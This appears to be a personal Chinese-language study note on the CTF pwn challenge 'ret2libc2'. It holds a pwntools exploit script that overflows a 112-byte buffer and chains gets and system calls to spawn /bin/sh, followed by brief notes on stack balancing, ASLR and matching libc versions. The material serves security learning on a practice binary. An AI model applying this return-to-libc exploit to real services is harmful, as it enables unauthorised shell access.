



```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```


pop_ebx不是调用约定的事,是为了堆栈平衡,正常执行下去,那加一个nop也行?????

http://t.zoukankan.com/afanti-p-12661561.html





开启aslr随机化后,加载的地址都在变,但后三位不变




搜索libc一直失败


要先把题目的libc版本切换后才可以找到正确的!!!


### 调用约定




ida跳转到指定地址快捷键 g